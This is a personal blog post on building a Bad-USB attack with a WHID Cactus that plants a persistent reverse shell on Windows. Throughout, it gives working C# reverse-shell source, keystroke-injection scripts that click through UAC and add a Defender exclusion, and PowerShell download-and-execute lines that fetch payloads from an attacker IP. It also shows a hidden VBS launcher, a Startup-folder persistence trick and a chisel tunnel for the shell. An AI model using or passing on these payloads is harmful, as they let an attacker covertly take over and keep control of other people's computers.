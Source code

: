 ```yaml
---
permalink: /portfolio/whid/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
title: Hacking with WHID
---
```


## Persistent reverse shell

A reverse shell is great, but what if he stayed, no matter what? Using a Bad-USB of any kind, you can inject a payload to create a persistent reverse shell.

### The shell

First, we need our shell. This will be an executable written in `dotNet core 3.1` ([source](https://www.puckiestyle.nl/c-simple-reverse-shell/)):

```C#
using System;
using System.Diagnostics;
using System.IO;
using System.Net.Sockets;
using System.Text;
using System.Threading;

namespace Shell1
{
    class Program
    {
        static StreamWriter streamWriter;

        public static void Main(string[] args)
        {
            while (true)// keep going
            {
                try
                {
                    connect();
                }
                catch { }

                Thread.Sleep(60000); //wait a minute before reconnecting
            }
        }

        private static void connect()
        {
            using(TcpClient client = new TcpClient("192.168.241.1", 8090)) //connect to attacker
            {
                using(Stream stream = client.GetStream())
                {
                    using(StreamReader rdr = new StreamReader(stream))
                    {
                        streamWriter = new StreamWriter(stream);
                        StringBuilder strInput = new StringBuilder();

                        Process p = new Process();
                        p.StartInfo.FileName = "cmd.exe"; //use cmd, so it becauses a shell
                        p.StartInfo.CreateNoWindow = true;
                        p.StartInfo.UseShellExecute = false;
                        p.StartInfo.RedirectStandardOutput = true;
                        p.StartInfo.RedirectStandardInput = true;
                        p.StartInfo.RedirectStandardError = true;
                        p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
                        p.Start();
                        p.BeginOutputReadLine();

                        while(true)
                        {
                            strInput.Append(rdr.ReadLine());
                            //strInput.Append("\n");
                            p.StandardInput.WriteLine(strInput);
                            strInput.Remove(0, strInput.Length);
                        }
                    }
                }
            }
        }

        private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);// show the output
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch { }
            }
        }
    }
}
```

This code creates a reverse shell to the gives IP address, which is restarted every minute after closing. But this program has to be started by a user after every reboot. And the users won't just trust every program, so we need something to get the executable on the victim's system without their knowledge. Here the Bad-USB comes into play. For this example, I used my WHID-Cactus, but it can be rewritten and used on any Bad-USB. I only changed the contents of the main method, so that the shell would reconnect after a minute.

```powershell
Press:131+114
Print:powershell
Press:128+129+176
Press:216+176
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/shell.exe", "$env:APPDATA\..\Local\Microsoft\Windows\0\wincore.exe") //TODO MY ip
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/invis.vbs", "$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs")
PrintLine:Add-MpPreference -ExclusionProcess "wincore.exe"
PrintLine:$s = (New-Object -comObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\wincore.lnk"); $s.TargetPath="C:\Windows\System32\wscript.exe";$s.Arguments="`"$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs`" `"C:\Users\admin\AppData\Local\Microsoft\Windows\0\wincore.exe`""; $s.Save();
exit
```

This little piece of code will make the perfect shell. Let's look at it line by line.

```whid
Press:131+114
```

This simulates a key-press by using Arduino keyboard-codes. `131` is the Windows-key and `114` is the letter 'r'. This will open the `Run` box on windows, allowing you to start an executable.

```whid
Print:powershell
```

This just types powershell into the `Run` box without an `enter` key pressed.

```whid
Press:128+129+176
Press:216+176
```

The first line uses the Arduino codes again to press `control`, `shift` and `enter`. This will run the given command (`powershell`) as an administrator, we need this to disable Windows Defender. The second line will type the left arrow and `enter` so that the UAC (admin-prompt) is answered with `yes`.

```powershell
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/shell.exe", "$env:APPDATA\..\Local\Microsoft\Windows\0\wincore.exe")
PrintLine:(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/invis.vbs", "$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs")
```

This is where the juicy stuff starts, first we download the `shell.exe` and a `vb` script called `invis.vbs`.

```vbs
CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
```

Why do we need this? This little script runs an executable completely hidden. Only far into task manager can you find the process, but nobody expects a process called `wincore` to be evil.

Both files are downloaded into `C:\users\{user}\AppData\Local\Microsoft\Windows\0\`, a folder very little people dare to even open, this is just another step to make the shell look like a windows process to "normal" people.

```powershell
PrintLine:Add-MpPreference -ExclusionProcess "wincore.exe"
```

This line is the reason that Powershell must start with privileges, this line makes a exclusion in Defender for all the processes named `wincore.exe`. This allows the shell to run without any interjection from Windows Defender.

```powershell
PrintLine:$s = (New-Object -comObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\wincore.lnk"); $s.TargetPath="C:\Windows\System32\wscript.exe";$s.Arguments="`"$env:APPDATA\..\Local\Microsoft\Windows\0\start.vbs`" `"C:\Users\admin\AppData\Local\Microsoft\Windows\0\wincore.exe`""; $s.Save();
```

And lastly, we create a shortcut in `C:\users\{user}\AppDate\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`. Everything executable or shortcut in this folder is run after the user logs in. This way we can start our shell every time the system boots. This does not run the shell yet, however if you want to run it immediately, you can just add this line to the script:

```powershell
PrinteLine:C:\Windows\System32\wscript.exe "C:\Users\admin\AppData\Roaming\..\Local\Microsoft\Windows\0\start.vbs" "C:\Users\admin\AppData\Local\Microsoft\Windows\0\wincore.exe"
```

This is simply the content of the shortcut.

We end the script with `exit`, so the user does not see that something is up. Currently, the script consists of multiple lines executed in Powershell, but if it is rewritten to one Powershell command that runs in the background, this injection can take only a few seconds to be ready. The execution then happens on the background, even when the USB is pulled out.

## Revision

So, I have been asked to give a short presentation on this subject, and I decided that I can go further for this presentation. So, I looked into more parts of this to create a better payload.

For this, I wanted a few things, first, a different shell. After some googling, I found this one: [C-Reverse-Shell](https://github.com/dev-frog/C-Reverse-Shell). A reverse shell written in C++, undetected by windows defender, this removed a step from my payload and also removed the need for Administrator rights. The next step was to make the executing way quicker. This was achieved by downloading and executing the script and the background so that no time is wasted on typing. This is the result:

When the cactus is inserted, this payload is executed:

```whid
Press:131+114
PrintLine:powershell.exe -w hidden -noni -nop -c "iex(New-Object System.Net.WebClient).DownloadString('http://192.168.241.1/script.ps1')"
Press:176
```

A very simple, Windows + r, then a powershell command that downloads and executes a script, and does this all on the background. Then press enter. This is the executed script:

```powershell
(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/re.exe", "$env:APPDATA\..\Local\Microsoft\Windows\0\wincore.exe")
(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/chisel.exe", "$env:APPDATA\..\Local\Microsoft\Windows\0\chisel.exe")
(New-Object System.Net.WebClient).DownloadFile("http://192.168.241.1/start.ps1", "$env:APPDATA\..\Local\Microsoft\Windows\0\start.ps1")
$s = (New-Object -comObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\wincore.lnk"); $s.TargetPath="C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe";$s.Arguments="-ExecutionPolicy Bypass $env:APPDATA\..\Local\Microsoft\Windows\0\start.ps1";$s.Save();
$path = Resolve-Path "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
Start-Process -FilePath $path -ArgumentList "-w hidden -ExecutionPolicy Bypass $env:APPDATA\..\Local\Microsoft\Windows\0\start.ps1"
```

The first three lines is downloading the files and placing then in my secret location. Then it makes a shortcut to execute on boot and last, it starts the payload:

```powershell
$path = Resolve-Path "$env:APPDATA\..\Local\Microsoft\Windows\0\chisel.exe"
Start-Process -FilePath $path -ArgumentList "client 192.168.241.1:9002 8090" -WindowStyle Hidden

Start-Sleep -s 2

$path = Resolve-Path "$env:APPDATA\..\Local\Microsoft\Windows\0\wincore.exe"
Start-Process -FilePath $path 
```

This starts the `chisel` client and connects to my server. Forwarding to local port 8090 to the attackers port 8090. Then it starts the reverse shell, which connects to `127.0.0.1:8090`, forwarded to the attacker's machine.

![shark](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/shark.png)

Now, the downside of Chisel is that it generates a lot more traffic, however, it is not just plain tCP traffic and it can be encrypted with SSL.
